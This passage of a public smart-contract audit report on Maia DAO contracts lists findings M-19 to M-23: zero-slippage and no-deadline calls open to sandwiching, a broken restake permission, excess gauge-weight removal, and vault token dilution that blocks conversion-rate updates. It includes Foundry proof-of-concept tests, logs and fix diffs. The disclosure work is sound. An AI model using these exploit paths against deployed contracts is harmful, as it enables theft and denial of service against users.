                amount1Desired: amount1Desired,
                amount0Min: 0, // @audit should be non-zero
                amount1Min: 0, // @audit should be non-zero
                recipient: address(this),
                deadline: block.timestamp
            })
        );
```

[`TalosBaseStrategy#_withdrawAll`](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L353-L361):

```solidity
        _nonfungiblePositionManager.decreaseLiquidity(
            INonfungiblePositionManager.DecreaseLiquidityParams({
                tokenId: _tokenId,
                liquidity: _liquidity,
                amount0Min: 0, // @audit should be non-zero
                amount1Min: 0, // @audit should be non-zero
                deadline: block.timestamp
            })
        );
```

### Recommended Mitigation Steps

For each vulnerable function, allow the caller to specify values for `amount0Min` and `amount1Min` instead of setting them to `0`.

### Assessed type

Uniswap

**[Trust (judge) decreased severity to Medium](https://github.com/code-423n4/2023-05-maia-findings/issues/577#issuecomment-1649408047)**

**[0xLightt (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/577#issuecomment-1651930410):**
 > > none of these interactions contain any [slippage control](https://dacian.me/defi-slippage-attacks#heading-no-slippage-parameter).
> 
> Just want to add that this is not accurate. These functions, except `init`, already have the `checkDeviation` [modifier](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L421-L427) that offers some level of protection.
> 
> But this issue is still valid, since the pool's slippage protection offered by the modifier may not be the same as the desired by the user. This way, the user can define their own settings.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/577#issuecomment-1709163274):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/577-57-504-658-583-730).

***

## [[M-19] The `RestakeToken` function is not permissionless](https://github.com/code-423n4/2023-05-maia-findings/issues/534)
*Submitted by [Kamil-Chmielewski](https://github.com/code-423n4/2023-05-maia-findings/issues/534), also found by [Udsen](https://github.com/code-423n4/2023-05-maia-findings/issues/801), [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/745), [zzebra83](https://github.com/code-423n4/2023-05-maia-findings/issues/729), [Voyvoda](https://github.com/code-423n4/2023-05-maia-findings/issues/632), [Madalad](https://github.com/code-423n4/2023-05-maia-findings/issues/581), [jasonxiale](https://github.com/code-423n4/2023-05-maia-findings/issues/536), [kutugu](https://github.com/code-423n4/2023-05-maia-findings/issues/320), [said](https://github.com/code-423n4/2023-05-maia-findings/issues/254), [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/216), [Co0nan](https://github.com/code-423n4/2023-05-maia-findings/issues/190), [chaduke](https://github.com/code-423n4/2023-05-maia-findings/issues/119), [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/84), and [ByteBandits](https://github.com/code-423n4/2023-05-maia-findings/issues/441)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/uni-v3-staker/UniswapV3Staker.sol#L340-L348> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/uni-v3-staker/UniswapV3Staker.sol#L373-L374>

### Vulnerability details

One of the project assumptions is that anyone can call the `restakeToken` function on someone else's token after the incentive ends (at the start of the new gauge cycle).

```solidity
File: src/uni-v3-staker/UniswapV3Staker.sol
365:     function _unstakeToken(IncentiveKey memory key, uint256 tokenId, bool isNotRestake) private {
366:         Deposit storage deposit = deposits[tokenId];
367: 
368:         (uint96 endTime, uint256 stakedDuration) =
369:             IncentiveTime.getEndAndDuration(key.startTime, deposit.stakedTimestamp, block.timestamp);
370: 
371:         address owner = deposit.owner;
372: 
373: @>      // anyone can call restakeToken if the block time is after the end time of the incentive
374: @>      if ((isNotRestake || block.timestamp < endTime) && owner != msg.sender) revert NotCalledByOwner();
		
		...
```

This assumption is broken because everywhere the `_unstakeToken` is called, the `isNotRestake` flag is set to `true`, including the [`restakeToken`](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/uni-v3-staker/UniswapV3Staker.sol#L342) function. Because of that, when the caller is not the `deposit.owner`, the `if` block will evaluate to `true`, and the call will revert with `NotCalledByOwner()` error.

```solidity
File: src/uni-v3-staker/UniswapV3Staker.sol
340:     function restakeToken(uint256 tokenId) external {
341:         IncentiveKey storage incentiveId = stakedIncentiveKey[tokenId];
342: @>      if (incentiveId.startTime != 0) _unstakeToken(incentiveId, tokenId, true);
343: 
344:         (IUniswapV3Pool pool, int24 tickLower, int24 tickUpper, uint128 liquidity) =
345:             NFTPositionInfo.getPositionInfo(factory, nonfungiblePositionManager, tokenId);
346: 
347:         _stakeToken(tokenId, pool, tickLower, tickUpper, liquidity);
348:     }
```

### Impact

Lower yield for users, broken 3rd party integration and higher gas usage.

The purpose of the `restakeToken` function is to:

- Enable easier automation - re-staking without the need for manual intervention.
- Aggregation - combining multiple actions into a single operation to increase efficiency and reduce transaction costs.

This is also the reason why the `UniswapV3Staker` contract inherits from `Multicallable`. Without the ability to re-stake for someone else, 3rd parties or groups of users won't be able to perform cost and yield efficient batch re-stakes.

As stated in the [Liquidity Mining section](https://v2-docs.maiadao.io/protocols/Hermes/overview/gauges/uni-v3#liquidity-mining) in the docs, LPs will lose new rewards until they re-stake again. Any delay means: fewer rewards -> fewer `bHermes` utility tokens -> lower impact in the ecosystem. It is very unlikely that users will be able to re-stake exactly at 12:00 UTC every Thursday (to maximize the yield) without some automation/aggregation.

### Proof of Concept

Since I decided to create a fork test on Arbitrum mainnet, the setup is quite lengthy and is explained in great detail in the following [GitHub Gist](https://gist.github.com/ChmielewskiKamil/8261acbbed37b84d176938aa398f19bd).

Pre-conditions:

- Alice and Bob are users of the protocol. They both have the 1000 DAI/1000 USDC UniswapV3 Liquidity position minted.
- The `UniswapV3Gauge` has weight allocated to it.
- The `BaseV2Minter` has queued `HERMES` rewards for the cycle.
- Charlie is a 3rd party that agreed to re-stake Alice's token at the start of the next cycle (current incentive end time).

```solidity
function testRestake_RestakeIsNotPermissionless() public {
        vm.startPrank(ALICE);
        // 1.a Alice stakes her NFT (at incentive StartTime)
        nonfungiblePositionManager.safeTransferFrom(ALICE, address(uniswapV3Staker), tokenIdAlice);
        vm.stopPrank();

        vm.startPrank(BOB);
        // 1.b Bob stakes his NFT (at incentive StartTime)
        nonfungiblePositionManager.safeTransferFrom(BOB, address(uniswapV3Staker), tokenIdBob);
        vm.stopPrank();

        vm.warp(block.timestamp + 1 weeks); // 2.a Warp to incentive end time
        gauge.newEpoch();                   // 2.b Queue minter rewards for the next cycle

        vm.startPrank(BOB);
        uniswapV3Staker.restakeToken(tokenIdBob); // 3.a Bob can restake his own token
        vm.stopPrank();

        vm.startPrank(CHARLIE);
        vm.expectRevert(bytes4(keccak256("NotCalledByOwner()")));
@>issue uniswapV3Staker.restakeToken(tokenIdAlice); // 3.b Charlie cannot restake Alice's token
        vm.stopPrank();

        uint256 rewardsBob = uniswapV3Staker.rewards(BOB);
        uint256 rewardsAlice = uniswapV3Staker.rewards(ALICE);

        assertNotEq(rewardsBob, 0, "Bob should have rewards");
        assertEq(rewardsAlice, 0, "Alice should not have rewards");

        console.log("=================");
        console.log("Bob's rewards   : %s", rewardsBob);
        console.log("Alice's rewards : %s", rewardsAlice);
        console.log("=================");
    }
```

When used with `multicall`, as it probably would in a real-life scenario, it won't work either.

Change Charlie's part to:

```solidity
bytes memory functionCall1 = abi.encodeWithSignature(
	"restakeToken(uint256)",
	tokenIdAlice
);
bytes memory functionCall2 = abi.encodeWithSignature(
	"restakeToken(uint256)",
	tokenIdBob
);

bytes[] memory data = new bytes[](2);
data[0] = functionCall1;
data[1] = functionCall2;

vm.startPrank(CHARLIE);
address(uniswapV3Staker).call(abi.encodeWithSignature("multicall(bytes[])", data));
vm.stopPrank();
```

### Recommended Mitigation Steps

A simple fix is to change the `isNotRestake` flag inside the `restakeToken` function to `false`:

```diff
diff --git a/src/uni-v3-staker/UniswapV3Staker.sol b/src/uni-v3-staker/UniswapV3Staker.sol
index 5970379..d7add32 100644
--- a/src/uni-v3-staker/UniswapV3Staker.sol
+++ b/src/uni-v3-staker/UniswapV3Staker.sol
@@ -339,7 +339,7 @@ contract UniswapV3Staker is IUniswapV3Staker, Multicallable {
 
     function restakeToken(uint256 tokenId) external {
         IncentiveKey storage incentiveId = stakedIncentiveKey[tokenId];
-        if (incentiveId.startTime != 0) _unstakeToken(incentiveId, tokenId, true);
+        if (incentiveId.startTime != 0) _unstakeToken(incentiveId, tokenId, false);
 
         (IUniswapV3Pool pool, int24 tickLower, int24 tickUpper, uint128 liquidity) =
             NFTPositionInfo.getPositionInfo(factory, nonfungiblePositionManager, tokenId);
```

A more complicated fix, which would reduce code complexity in the future, would be to rename the `isNotRestake` flag to `isRestake`.

This way, one level of indirection would be reduced.

```diff
diff --git a/src/uni-v3-staker/UniswapV3Staker.sol b/src/uni-v3-staker/UniswapV3Staker.sol
index 5970379..43ff24c 100644
--- a/src/uni-v3-staker/UniswapV3Staker.sol
+++ b/src/uni-v3-staker/UniswapV3Staker.sol
@@ -354,15 +354,15 @@ contract UniswapV3Staker is IUniswapV3Staker, Multicallable {
     /// @inheritdoc IUniswapV3Staker
     function unstakeToken(uint256 tokenId) external {
         IncentiveKey storage incentiveId = stakedIncentiveKey[tokenId];
-        if (incentiveId.startTime != 0) _unstakeToken(incentiveId, tokenId, true);
+        if (incentiveId.startTime != 0) _unstakeToken(incentiveId, tokenId, false);
     }
 
     /// @inheritdoc IUniswapV3Staker
     function unstakeToken(IncentiveKey memory key, uint256 tokenId) external {
-        _unstakeToken(key, tokenId, true);
+        _unstakeToken(key, tokenId, false);
     }
 
-    function _unstakeToken(IncentiveKey memory key, uint256 tokenId, bool isNotRestake) private {
+    function _unstakeToken(IncentiveKey memory key, uint256 tokenId, bool isRestake) private {
         Deposit storage deposit = deposits[tokenId];
 
         (uint96 endTime, uint256 stakedDuration) =
@@ -371,7 +371,7 @@ contract UniswapV3Staker is IUniswapV3Staker, Multicallable {
         address owner = deposit.owner;
 
         // anyone can call restakeToken if the block time is after the end time of the incentive
-        if ((isNotRestake || block.timestamp < endTime) && owner != msg.sender) revert NotCalledByOwner();
+        if ((isRestake || block.timestamp < endTime) && owner != msg.sender) revert NotCalledByOwner();
```

### Assessed type

Access Control

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/534#issuecomment-1655670255)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/534#issuecomment-1709163938):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/534).

***

## [[M-20] Some functions in the Talos contracts do not allow user to supply `slippage` and `deadline`, which may cause swap revert](https://github.com/code-423n4/2023-05-maia-findings/issues/504)
*Submitted by [0xnev](https://github.com/code-423n4/2023-05-maia-findings/issues/504), also found by [MohammedRizwan](https://github.com/code-423n4/2023-05-maia-findings/issues/899), Breeje ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/863), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/841)), [tsvetanovv](https://github.com/code-423n4/2023-05-maia-findings/issues/845), [shealtielanz](https://github.com/code-423n4/2023-05-maia-findings/issues/784), [kutugu](https://github.com/code-423n4/2023-05-maia-findings/issues/719), [nadin](https://github.com/code-423n4/2023-05-maia-findings/issues/706), [peanuts](https://github.com/code-423n4/2023-05-maia-findings/issues/626), [Madalad](https://github.com/code-423n4/2023-05-maia-findings/issues/582), [IllIllI](https://github.com/code-423n4/2023-05-maia-findings/issues/512), [0xSmartContract](https://github.com/code-423n4/2023-05-maia-findings/issues/399), [said](https://github.com/code-423n4/2023-05-maia-findings/issues/288), [ByteBandits](https://github.com/code-423n4/2023-05-maia-findings/issues/283), [SpicyMeatball](https://github.com/code-423n4/2023-05-maia-findings/issues/261), T1MOH ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/200), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/72)), [BugBusters](https://github.com/code-423n4/2023-05-maia-findings/issues/171), and [Kaiziron](https://github.com/code-423n4/2023-05-maia-findings/issues/814)*

In the following functions, except `TalosBaseStrategy.redeem()`, the minimum `slippage` is still hardcoded to `0`, not allowing the user to specify their own slippage parameters. This can expose users to sandwich attacks due to unlimited slippage.

Additionally, it also does not allow users to supply their own `deadline`, as the `deadline` parameter is simply passed in currently as `block.timestamp`, in which the transaction occurs. This effectively means, that the transaction has no deadline; which means that a swap transaction may be included anytime by validators and remain pending in `mempool`, potentially exposing users to sandwich attacks by attackers or MEV bots.

- `TalosBaseStrategy.redeem()` [Link](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L269)
- `TalosStrategyVanilla._compoundFees()` [Link](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/TalosStrategyVanilla.sol#L148)
- `TalosBaseStrategy.init()` [Link](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L147)
- `TaloseBaseStrategy.deposit()` [Link](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L208)
- `TaloseBaseStrategy._withdrawAll()` [Link](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L359)

### Proof of Concept

Consider the following scenario:

1. Alice wants to swap 30 BNB tokens for 1 BNB and later sell the 1 BNB for 300 DAI. They sign the transaction calling `TalosBaseStrategy.redeem()` with `inputAmount = 30 vBNB` and `amountOutmin = 0.99 BNB` (`$`1 slippage).

2. The transaction is submitted to the `mempool`; however, Alice chose a transaction fee that is too low for validators to be interested in including their transaction in a block. The transaction stays pending in the `mempool` for extended periods, which could be hours, days, weeks, or even longer.

3. When the average gas fee drops far enough for Alice's transaction to become interesting again for miners to include it, their swap will be executed. In the meantime, the price of BNB could have drastically decreased. They will still at least get 0.99 BNB due to `amountOutmin`, but the DAI value of that output might be significantly lower. They have unknowingly performed a bad trade due to the pending transaction they forgot about.

An even worse way, is this issue can be maliciously exploited is through MEV:

1. The swap transaction is still pending in the `mempool`. Average fees are still too high for validators to be interested in it. The price of BNB has gone up significantly since the transaction was signed, meaning Alice would receive a lot more ETH when the swap is executed. But that also means that their `minOutput` value is outdated and would allow for significant slippage.

2. A MEV bot detects the pending transaction. Since the outdated `minOut` now allows for high slippage, the bot sandwiches Alice, resulting in significant profit for the bot and significant loss for Alice.

The above scenario could be made worse for other functions where slippage is not allowed to be user-specified. When combined with the lack of a deadline check, MEV bots can simply immediately sandwich users.

### Recommendation

Allow users to supply their own `slippage` and `deadline` parameters within the stated functions. The `deadline` modifier can then be checked via a modifier or check, which has already been implemented via the `checkDeadline()` modifier.

### Assessed type

Timing

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/504#issuecomment-1655668398)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/504#issuecomment-1709165574):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/577-57-504-658-583-730).

***

## [[M-21] Removing more gauge weight than it should be while transferring `ERC20Gauges` token](https://github.com/code-423n4/2023-05-maia-findings/issues/477)
*Submitted by [KingNFT](https://github.com/code-423n4/2023-05-maia-findings/issues/477), also found by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/736), [AlexCzm](https://github.com/code-423n4/2023-05-maia-findings/issues/657), and [0x4non](https://github.com/code-423n4/2023-05-maia-findings/issues/354)*

The `_decrementWeightUntilFree()` function is not well implemented. If there are deprecated gauges, it would remove more gauge weight than it should be while transferring `ERC20Gauges` token.

### Proof of Concept

The issue arises on [L536](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-20/ERC20Gauges.sol#L536) of `_decrementWeightUntilFree()`, where `userFreed`, rather than `totalFreed`, should be used in loop condition.

```diff
File: src\erc-20\ERC20Gauges.sol
519:     function _decrementWeightUntilFree(address user, uint256 weight) internal nonReentrant {
520:         uint256 userFreeWeight = freeVotes(user) + userUnusedVotes(user);
521: 
522:         // early return if already free
523:         if (userFreeWeight >= weight) return;
524: 
525:         uint32 currentCycle = _getGaugeCycleEnd();
526: 
527:         // cache totals for batch updates
528:         uint112 userFreed;
529:         uint112 totalFreed;
530: 
531:         // Loop through all user gauges, live and deprecated
532:         address[] memory gaugeList = _userGauges[user].values();
533: 
534:         // Free gauges through the entire list or until underweight
535:         uint256 size = gaugeList.length;
-536:         for (uint256 i = 0; i < size && (userFreeWeight + totalFreed) < weight;) {
+536:         for (uint256 i = 0; i < size && (userFreeWeight + userFreed) < weight;) {
537:             address gauge = gaugeList[i];
538:             uint112 userGaugeWeight = getUserGaugeWeight[user][gauge];
539:             if (userGaugeWeight != 0) {
540:                 // If the gauge is live (not deprecated), include its weight in the total to remove
541:                 if (!_deprecatedGauges.contains(gauge)) {
542:                     totalFreed += userGaugeWeight;
543:                 }
544:                 userFreed += userGaugeWeight;
545:                 _decrementGaugeWeight(user, gauge, userGaugeWeight, currentCycle);
546: 
547:                 unchecked {
548:                     i++;
549:                 }
550:             }
551:         }
552: 
553:         getUserWeight[user] -= userFreed;
554:         _writeGaugeWeight(_totalWeight, _subtract112, totalFreed, currentCycle);
555:     }
556: }
```

The following test script shows how excess gauge weight is inadvertently removed during the transfer of `ERC20Gauges` tokens:

`FilePath: test\erc-20\ERC20GaugesBug.t.sol`

```solidity
// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity ^0.8.0;

import {console2} from "forge-std/console2.sol";

import {DSTestPlus} from "solmate/test/utils/DSTestPlus.sol";

import {MockBaseV2Gauge, FlywheelGaugeRewards, ERC20} from "../gauges/mocks/MockBaseV2Gauge.sol";

import {MockERC20Gauges, ERC20Gauges} from "./mocks/MockERC20Gauges.t.sol";

contract ERC20GaugesTest is DSTestPlus {
    MockERC20Gauges token;
    address gauge1;
    address gauge2;

    function setUp() public {
        token = new MockERC20Gauges(address(this), 3600, 600); // 1 hour cycles, 10 minute freeze

        hevm.mockCall(address(0), abi.encodeWithSignature("rewardToken()"), abi.encode(ERC20(address(0xDEAD))));
        hevm.mockCall(address(0), abi.encodeWithSignature("gaugeToken()"), abi.encode(ERC20Gauges(address(0xBEEF))));
        hevm.mockCall(
            address(this), abi.encodeWithSignature("bHermesBoostToken()"), abi.encode(ERC20Gauges(address(0xBABE)))
        );

        gauge1 = address(new MockBaseV2Gauge(FlywheelGaugeRewards(address(0)), address(0), address(0)));
        gauge2 = address(new MockBaseV2Gauge(FlywheelGaugeRewards(address(0)), address(0), address(0)));
    }

    function testRemovingMoreGaugeWeightThanItShouldBe() public {
        // initializing
        token.setMaxGauges(2);
        token.addGauge(gauge1);
        token.addGauge(gauge2);
        token.setMaxDelegates(2);

        // test users
        address alice = address(0x111);
        address bob = address(0x222);

        // give some token to alice 
        token.mint(alice, 200);

        // alice delegate votes to self
        hevm.prank(alice);
        token.delegate(alice);
        assertEq(token.getVotes(alice), 200);

        // alice increments gauge1 and gauge2 with weight 100 respectively
        hevm.startPrank(alice);
        token.incrementGauge(gauge1, 100);
        token.incrementGauge(gauge2, 100);
        hevm.stopPrank();
        assertEq(token.getUserGaugeWeight(alice, gauge1), 100);
        assertEq(token.getUserGaugeWeight(alice, gauge2), 100);
        assertEq(token.getUserWeight(alice), 200);

        // removing gauge1 would trigger the bug
        token.removeGauge(gauge1);

        // transfer only 100 weight
        hevm.prank(alice);
        token.transfer(bob, 100);

        // but all 200 weight is removed, and the 100 weight of gauge2
        // is removed unnecessarily
        assertEq(token.getUserGaugeWeight(alice, gauge1), 0);
        assertEq(token.getUserGaugeWeight(alice, gauge2), 0);
        assertEq(token.getUserWeight(alice), 0);
    }

}
```

Test log:

```solidity
2023-05-maia> forge test --match-test testRemovingMoreGaugeWeightThanExpected -vv
[â ˜] Compiling...
[â †] Compiling 87 files with 0.8.18
[â ˜] Solc 0.8.18 finished in 39.43s
Compiler run successful

Running 1 test for test/erc-20/ERC20GaugesBug.t.sol:ERC20GaugesTest
[PASS] testRemovingMoreGaugeWeightThanExpected() (gas: 649072)
Test result: ok. 1 passed; 0 failed; finished in 2.64ms
```

### Recommended Mitigation Steps

See PoC

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/477#issuecomment-1632865673)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/477#issuecomment-1709166109):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/477).

***

## [[M-22] Maia Governance token balance dilution in `vMaia` vault is breaking the conversion rate mechanism](https://github.com/code-423n4/2023-05-maia-findings/issues/473)
*Submitted by [0xTheC0der](https://github.com/code-423n4/2023-05-maia-findings/issues/473)*

Once a user deposits `Maia` ERC-20 tokens into the `vMaia` ERC-4626 vault, they are eligible to claim 3 kinds of utility tokens: `bHermes Weight` and `Governance` and `Maia Governance `(`pbHermes`, partner governance). On each deposit, new Maia Governance tokens (`pbHermes`) are [minted to the vault in proportion to the deposited amount](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L235-L246), but those tokens are [never burned on withdrawal](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L248-L256). This naturally dilutes the vault's `pbHermes` token balance during the course of users depositing & withdrawing `Maia` tokens. Furthermore, a malicious user can dramatically accelerate this dilution by repeatedly depositing & withdrawing within a single transaction.

*Note that the vault's `bHermes Weight` and `Governance` token balances are not diluted during this process.*

However, the [ERC4626PartnerManager.increaseConversionRate(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L215-L229) method (which `ERC4626PartnerManager` is the base of the `vMaia` contract) relies on the vault's `pbHermes` token balance and therefore, imposes a lower limit on an increased `pbHermes<>bHermes` conversion rate to avoid underflow, see [L226](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L226): `min. rate = vault balance of pbHermes / Maia tokens in the vault`. Meanwhile, the upper limit for a new conversion rate is given by [L219](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L219): `max. rate = vault balance of bHermes / Maia tokens in vault`.

As a consequence, the `vMaia` vault owner's ability to increase the conversion rate is successively constrained by user deposits & withdrawals, up until the point where the dilution of `pbHermes` reaches the `vault balance of pbHermes > vault balance of bHermes`, which leads to complete DoS of the [ERC4626PartnerManager.increaseConversionRate(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L215-L229) method.

### Proof of Concept

The following PoC verifies the above claims about `pbHermes` dilution and `increaseConversionRate(...)` DoS. Just apply the *diff* below and run the new in-line documented test case with `forge test -vv --match-test testDepositMaiaDilutionUntilConversionRateFailure`:

```diff
diff --git a/test/maia/vMaiaTest.t.sol b/test/maia/vMaiaTest.t.sol
index 6efabc5..2af982e 100644
--- a/test/maia/vMaiaTest.t.sol
+++ b/test/maia/vMaiaTest.t.sol
@@ -7,6 +7,7 @@ import {SafeTransferLib} from "solady/utils/SafeTransferLib.sol";

 import {vMaia, PartnerManagerFactory, ERC20} from "@maia/vMaia.sol";
 import {IBaseVault} from "@maia/interfaces/IBaseVault.sol";
+import {IERC4626PartnerManager} from "@maia/interfaces/IERC4626PartnerManager.sol";
 import {MockVault} from "./mock/MockVault.t.sol";

 import {bHermes} from "@hermes/bHermes.sol";
@@ -47,7 +48,7 @@ contract vMaiaTest is DSTestPlus {
             "vMAIA",
             address(bhermes),
             address(vault),
-            address(0)
+            address(this) // set owner to allow call to 'increaseConversionRate'
         );
     }

@@ -86,6 +87,39 @@ contract vMaiaTest is DSTestPlus {
         assertEq(vmaia.balanceOf(address(this)), amount);
     }

+    function testDepositMaiaDilutionUntilConversionRateFailure() public {
+        testDepositMaia();
+        uint256 amount = vmaia.balanceOf(address(this));
+
+        // fast-forward to withdrawal Tuesday
+        hevm.warp(getFirstDayOfNextMonthUnix());
+
+        for(uint256 i = 0; i < 10; i++) {
+            // get & print bHermes & pbHermes vault balances
+            uint256 bHermesBal = bhermes.balanceOf(address(vmaia));
+            uint256 pbHermesBal = vmaia.partnerGovernance().balanceOf(address(vmaia));
+            console2.log("vault balance of bHermes: ", bHermesBal);
+            console2.log("vault balance of pbHermes:", pbHermesBal);
+
+            // dilute pbHermes by withdraw & deposit cycle
+            vmaia.withdraw(amount, address(this), address(this));
+            maia.approve(address(vmaia), amount);
+            vmaia.deposit(amount, address(this));
+
+            // get diluted pbHermes balance and compute min. conversion rate accordingly
+            pbHermesBal = vmaia.partnerGovernance().balanceOf(address(vmaia));
+            uint256 minNewConversionRate = pbHermesBal / vmaia.totalSupply();
+            // check if dilution caused constraints are so bad that we get DoS
+            if (pbHermesBal > bHermesBal)
+            {
+                hevm.expectRevert(IERC4626PartnerManager.InsufficientBacking.selector);
+            }
+            vmaia.increaseConversionRate(minNewConversionRate);
+        }
+
+
+    }
+
     function testDepositMaiaAmountFail() public {
         assertEq(vmaia.bHermesRate(), bHermesRate);

```

We can clearly see the increasing dilution after each withdrawal-deposit cycle and get the expected **revert**. See the `if-condition`, after reaching critical dilution:


    [PASS] testDepositMaiaDilutionUntilConversionRateFailure() (gas: 1759462)
    Logs:
      2023 2
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 200000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 400000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 800000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 1600000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 2400000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 3200000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 4000000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 4800000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 5600000000000000000000

### Tools Used

VS Code, Foundry

### Recommended Mitigation Steps

Burn the excess `pbHermes` tokens on withdrawal from `vMaia` vault:

```diff
diff --git a/src/maia/tokens/ERC4626PartnerManager.sol b/src/maia/tokens/ERC4626PartnerManager.sol
index b912bab..31cfef7 100644
--- a/src/maia/tokens/ERC4626PartnerManager.sol
+++ b/src/maia/tokens/ERC4626PartnerManager.sol
@@ -252,6 +252,7 @@ abstract contract ERC4626PartnerManager is PartnerUtilityManager, Ownable, ERC46
      * @param amount amounts of vMaia to burn
      */
     function _burn(address from, uint256 amount) internal virtual override checkTransfer(from, amount) {
+        ERC20MultiVotes(partnerGovernance).burn(address(this), amount * bHermesRate);
         super._burn(from, amount);
     }

```

We can see that this fixes the dilution issue:

    [PASS] testDepositMaiaDilutionUntilConversionRateFailure() (gas: 2150656)
    Logs:
      2023 2
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000
      vault balance of bHermes:  1000000000000000000000
      vault balance of pbHermes: 100000000000000000000

### Assessed type

ERC20

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/473#issuecomment-1631705084)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/473#issuecomment-1709166255):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/473).

***

## [[M-23] Claiming outstanding utility tokens from `vMaia` vault DoS on `pbHermes<>bHermes` conversion rate `>` 1](https://github.com/code-423n4/2023-05-maia-findings/issues/470)
*Submitted by [0xTheC0der](https://github.com/code-423n4/2023-05-maia-findings/issues/470), also found by [Verichains](https://github.com/code-423n4/2023-05-maia-findings/issues/82)*

Once a user deposits `Maia` ERC-20 tokens into the `vMaia` ERC-4626 vault, they are eligible to claim 3 kinds of utility tokens: `bHermes Weight` and `Governance` and `Maia Governance` (`pbHermes`, partner governance), via the [ERC4626PartnerManager.claimOutstanding()](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L89-L97) method ( `ERC4626PartnerManager` is the base of the `vMaia` contract). The conversion rate between the utility tokens and [vMaia tokens minted on deposit](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L235-L246) can be increased (and **only** increased) by the contract owner via the [ERC4626PartnerManager.increaseConversionRate(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L215-L229) method.

